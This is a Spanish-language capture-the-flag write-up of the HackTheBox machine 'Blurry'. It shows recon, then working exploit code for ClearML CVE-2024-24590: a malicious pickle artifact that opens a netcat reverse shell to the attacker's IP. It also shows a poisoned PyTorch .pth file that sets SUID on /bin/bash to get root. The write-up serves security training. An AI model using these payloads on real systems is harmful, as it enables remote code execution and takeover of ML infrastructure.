---

# Descripcion

Blurry de HackTheBox comienza con reconocimiento web y descubrimiento de app.blurry.htb. Rocket.Chat revela tareas periódicas con etiqueta review en ClearML (Black Swan). Se explota CVE-2024-24590 subiendo un artefacto pickle malicioso, obteniendo RCE y shell. En escalada, sudo evaluate_model procesa modelos PyTorch .pth; se inyecta código que ejecuta chmod +s /bin/bash, permitiendo bash -p y acceso root.

---


# Enumeracion

## Nmap

> Comenzamos con un escaneo completo de puertos para identificar los servicios expuestos en la máquina objetivo.

```bash
$ nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.28.132
```



> Sobre los puertos abiertos (`22` y `80`) lanzamos detección de servicios y scripts por defecto para obtener más información.

```bash
$ nmap -p22,80 -sC -sV 10.129.28.132
```



> Añadimos `app.blurry.htb` al `/etc/hosts` y volvemos a pasar `nmap` apuntando a ese dominio, ya que el servidor web parece estar resolviendo por `vhost`.

```bash
$ nmap -p80 -sC -sV app.blurry.htb
```



## Web

> Identificamos las tecnologías que corren detrás del sitio principal.

```bash
$ whatweb http://blurry.htb
```



> A continuación vamos a buscar más `vhosts` en el sistema.

```
gobuster vhost -u http://blurry.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
```



## Chat (Rocket.Chat)



> Vemos un panel de autenticación de esta aplicación que utiliza `rocket.chat`. Vamos a probar a registrarnos y loguearnos.



> Una vez dentro, nos encontramos con un panel y un canal de chat donde varios trabajadores están conversando. En principio no veo nada relevante, pero investigando encuentro otro canal llamado `Announcements`.



> Si miramos en su interior veremos un mensaje que puede ser interesante.



> Lo importante de aquí es que utilizan `ClearML` y que, dentro de un proyecto llamado `Black Swan`, ejecutan periódicamente todas las tareas que tengan la etiqueta `review`. Vamos a ir a `app.blurry.htb`.

## ClearML



> [!ClearML]
> **ClearML** es una plataforma **MLOps y LLMOps de código abierto** y de extremo a extremo, diseñada para agilizar el desarrollo, entrenamiento, orquestación y despliegue de modelos de inteligencia artificial y aprendizaje automático.

> Nos encontramos con esta `app` en `app.blurry.htb`. Si introducimos un nombre nos llevará a un `dashboard`.



> Si vamos a la pestaña de configuración (arriba a la derecha) podemos ver la versión que está en funcionamiento.



# Shell como Jippity

## CVE-2024-24590 / ClearML

> Buscando por Google encontramos varias vulnerabilidades; la que más me interesa es la `CVE-2024-24590`.

> [!Vuln]
> ClearML implica la inseguridad inherente de los archivos pickle. Descubrimos que un atacante podría crear un archivo pickle que contenga código arbitrario y subirlo como artefacto a un proyecto a través de la API. Cuando un usuario llama al método **get** dentro de la clase **Artifact** para descargar y cargar un archivo en memoria, el pickle se deserializa en su sistema, ejecutando cualquier código arbitrario que contenga.

> Para llevar esto a cabo voy a crear un script en `python`. Primero hacemos la configuración inicial para poder conectarnos a `ClearML`; para ello debemos instalarlo con `pip` estando dentro de un entorno de `python`.

```bash
source myenv/bin/activate
pip3 install clearml
```

> Ahora, en la página web, iremos a `project` y seleccionamos el proyecto.



> Después a `experiments` y añadimos uno nuevo.





> Aquí nos dirá cómo instalarlo. Como ya tenemos `clearml`, usaremos `clearml-init` y copiaremos las credenciales que nos proporcionen al crearlas.

```bash
clearml-init
```



## Explotación de CVE-2024-24590

> Una vez configurado, podemos pasar a crear nuestro script en `python`, teniendo en cuenta lo que vimos en `rocket.chat`: el proyecto `Black Swan` y que la tarea debe tener la etiqueta `review`.

```python
import os
from clearml import Task

class RunCommand:
    def __reduce__(self):
        return (os.system, ('ping -c 1 10.10.14.154',))


command = RunCommand()

# Escoger o crear una tarea.
task = Task.init(
	project_name="Black Swan",
	task_name="RCE",
	tags=["review"],
	output_uri=True
)

# Subir un artefacto
task.upload_artifact(
	name="pickle_artifact",
	artifact_object=command, 
	retries=2, 
	wait_on_upload=True, 
	extension_name=".pkl"
)
```

> Este es un script de prueba para comprobar si recibimos el `ping`. Vamos a abrir `tcpdump` primero.

```bash
sudo tcpdump -i tun0 icmp
```

> Ejecutamos el `.py` y esperamos un poco hasta que se realice la petición.



> Ahora voy a modificar el script para que nos envíe una `shell`.

```python
import os
from clearml import Task

class RunCommand:
    def __reduce__(self):
        return (os.system, ('nc 10.10.14.154 7777 -e /bin/bash',))


command = RunCommand()

# Escoger o crear una tarea.
task = Task.init(
	project_name="Black Swan",
	task_name="RCE",
	tags=["review"],
	output_uri=True
)

# Subir un artefacto
task.upload_artifact(
	name="pickle_artifact",
	artifact_object=command, 
	retries=2, 
	wait_on_upload=True, 
	extension_name=".pkl"
)
```

- Nos ponemos en escucha con `nc`.

```bash
nc -nvlp 7777
```

> Ejecutamos el `.py` y esperamos de nuevo.



# Shell como root

## Enumeracion

> Una vez que ganamos acceso a la máquina, listamos `sudoers`.

```bash
sudo -l
```



> Tenemos esa configuración en `sudoers`. Vamos a ver qué permisos tengo sobre el binario.

```bash
ls -la /usr/bin/evaluate_model
```



> Podemos verlo y ejecutarlo, pero no editarlo. Veamos qué contiene.

```bash
#!/bin/bash
# Evaluate a given model against our proprietary dataset.
# Security checks against model file included.


## COMPRUEBA EL NUMERO DE ARGUMENTOS
if [ "$#" -ne 1 ]; then
    /usr/bin/echo "Usage: $0 <path_to_model.pth>"
    exit 1
fi


MODEL_FILE="$1" 
TEMP_DIR="/opt/temp"
PYTHON_SCRIPT="/models/evaluate_model.py"  

# CREA LA CARPETA POR SI NO EXISTE
/usr/bin/mkdir -p "$TEMP_DIR"


# COGE EL TIPO DEL ARCHIVO QUE HEMOS INTRODUCIDO
file_type=$(/usr/bin/file --brief "$MODEL_FILE")

# SI EL ARCHIVO ES TAR
if [[ "$file_type" == *"POSIX tar archive"* ]]; then

    /usr/bin/tar -xf "$MODEL_FILE" -C "$TEMP_DIR"
# SI EL ARCHIVO ES ZIP
elif [[ "$file_type" == *"Zip archive data"* ]]; then

    /usr/bin/unzip -q "$MODEL_FILE" -d "$TEMP_DIR"
else # SI NO ES NINGUNO DE LOS DOS NOS DA ERROR
    /usr/bin/echo "[!] Unknown or unsupported file format for $MODEL_FILE"
    exit 2
fi

# COMPRUEBA QUE NO TENGA ARCHIVO .PKL O LLAMADOS PICKLE
/usr/bin/find "$TEMP_DIR" -type f \( -name "*.pkl" -o -name "pickle" \) -print0 | while IFS= read -r -d $'\0' extracted_pkl; do

# UTILIZA FICKLING PARA FILTRAR EL CONTENIDO Y QUE NO HAYA CONTENIDO MALICIOSO
    fickling_output=$(/usr/local/bin/fickling -s --json-output /dev/fd/1 "$extracted_pkl")
# SI FICKLING DEVUELVE ESE CODIGO DE SEVERIDAD LA APLICACION PARARA Y SE BORRARA EL MODELO
    if /usr/bin/echo "$fickling_output" | /usr/bin/jq -e 'select(.severity == "OVERTLY_MALICIOUS")' >/dev/null; then
        /usr/bin/echo "[!] Model $MODEL_FILE contains OVERTLY_MALICIOUS components and will be deleted."
        /bin/rm "$MODEL_FILE"
        break
    fi
done

# LIMPIA DIRECTORIO TEMPORAL
/usr/bin/find "$TEMP_DIR" -type f -exec /bin/rm {} +
/bin/rm -rf "$TEMP_DIR"

# SI EL MODELO SIGUE EXISTIENDO SIGNIFICA QUE ES SEGURO, Y LO EJECUTARA CON EL PYTHON SCRIPT "/models/evaluate_model.py"
if [ -f "$MODEL_FILE" ]; then
    /usr/bin/echo "[+] Model $MODEL_FILE is considered safe. Processing..."
    /usr/bin/python3 "$PYTHON_SCRIPT" "$MODEL_FILE"
fi
```

## Escalada de privilegios

> Una vez analizado el código, vamos a buscar cómo crear un `.pth` y cómo intentar inyectar código en él. Buscando por Google encuentro esta página:

```
https://red.infiltr8.io/redteam/privilege-escalation/linux/script-exploits/python/pytorch-models-pth-files-code-execution
```

> Modifico el código para que ejecute lo que quiero.

```python
import torch
import torch.nn as nn
import os

class EvilModel(nn.Module):
	def __init__(self):
		super(EvilModel, self).__init__()
		self.dense = nn.Linear(10, 50)
	
	def forward(self, evil):
		return self.dense(evil)
	
	def __reduce__(self):
		# Inject OS command.
		cmd = "chmod +s /bin/bash"
		return os.system, (cmd,)

# Save the model
evil_model = EvilModel()
torch.save(evil_model, 'evil.pth')
```

> Ejecutaremos `chmod +s /bin/bash` para darle permisos `SUID` a la `bash` y poder acceder sin permisos privilegiados. Ejecutamos el script y debemos ponerlo en la carpeta `/models`.

```bash
python3 inject.py
mv /tmp/evil.pth /models/evil.pth
sudo /usr/bin/evaluate_model /models/evil.pth
ls -la /bin/bash
```



> Ejecuta el comando que pusimos. Ahora vamos a ganar acceso `root`.

```bash
bash -p
```

